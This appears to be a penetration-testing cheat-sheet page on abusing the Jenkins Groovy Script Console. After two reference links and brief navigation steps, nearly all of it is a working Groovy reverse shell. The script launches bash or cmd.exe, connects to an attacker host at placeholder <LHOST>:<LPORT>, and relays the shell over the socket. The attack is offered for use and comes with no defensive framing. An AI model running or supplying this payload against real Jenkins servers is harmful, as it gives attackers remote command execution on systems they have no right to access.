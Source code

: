 # Jenkis




## Script Console Abuse

* [https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
* [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

Manage Jankis → Script Console → Run:

```groovy
String host = "<LHOST>";
int port = <LPORT>;
String cmd = "bash";  // or "cmd.exe" for Windows

Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);

InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();

while (!s.isClosed()) {
	while (pi.available() > 0)
		so.write(pi.read());
	while (pe.available() > 0)
		so.write(pe.read());
	while (si.available() > 0)
		po.write(si.read());
	so.flush();
	po.flush();
	Thread.sleep(50);
	try {
		p.exitValue();
		break;
	} catch (Exception e) {}
};

p.destroy();
s.close();
```

